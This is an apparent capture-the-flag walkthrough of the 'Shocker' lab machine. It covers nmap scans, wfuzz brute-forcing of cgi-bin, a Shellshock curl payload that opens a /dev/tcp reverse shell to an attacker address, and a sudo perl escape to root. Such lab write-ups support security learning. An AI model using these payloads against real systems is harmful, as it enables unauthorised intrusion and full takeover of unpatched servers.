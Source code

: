 # enum
### nmap

```bash
# Nmap 7.92 scan initiated Tue Oct 26 14:58:39 2021 as: nmap -p- --min-rate 10000 -oA alltcp 10.10.10.56
Warning: 10.10.10.56 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.56
Host is up (0.47s latency).
Not shown: 65261 closed tcp ports (reset), 272 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

# Nmap done at Tue Oct 26 15:13:39 2021 -- 1 IP address (1 host up) scanned in 899.92 seconds
```

```bash
# Nmap 7.92 scan initiated Tue Oct 26 15:14:57 2021 as: nmap -p80,2222 -sCV -oA tcpscripts 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.11s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 26 15:15:26 2021 -- 1 IP address (1 host up) scanned in 29.26 seconds
```

#### Website - TCP 80

<img src="/assets/img/shocker/1.png">

Looks like at the web you can't do much, its just and images.

#### Directory Brute Force

We can use some `wfuzz` to get the directories, but there is something to actually do to do, its not that hard.

```bash
wfuzz -t 200 --hc=404 --hw=324 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.56/FUZZ
```

```bash
wfuzz -t 200 --hc=404 --hw=324 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.56/FUZZ/
```

Sometimes, if you do some directory listing, it does not work, and its just because one thing, most of the directories use and `/` at the end. you can just put it in on the `wfuzz` and same with other tools. And then the directory listing will work for this machines.

<img src="/assets/img/shocker/2.png">

It works, and already find the directory I'm looking for.

Now lets google what its a `cgi-bin`.

<img src="/assets/img/shocker/3.png">

So looks like inside this directory we can find some scripts. So lets do again a `fuzzing` to know the files inside this directory.

But this time we are gonna create a `.txt` file, so i name my file `extensions.txt`.

```bash
.py
.sh
.cl
```

And gonna use the same `wfuzz` command than before but adding my new wordlist.

```bash
wfuzz -t 200 --hc=404 --hw=324 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensions.txt -u http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
```

After doing the fuzzing, it find the `user.sh`.

<img src="/assets/img/shocker/4.png">

#### ShellShock Background

So what about google `cgi-bin exploit user.sh`.

```bash
curl -H "User-agent: myuseragent" http://localhost/cgi-bin/hello.sh
```

We can do a curl and then create a payload to get access the machine.

```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.xx.xx/443 0>&1" http://localhost/cgi-bin/user.sh
```

## Shell as root
#### Enumeration

```bash 
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

### Shell
So we just gonna use this command `sudo perl -e 'exec "/bin/bash"'`, cause you can use `perl` and with perl there is a way to scape `'""'` and it will let you exec commands.

```bash
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash"'
root@Shocker:/home/shelly#
```








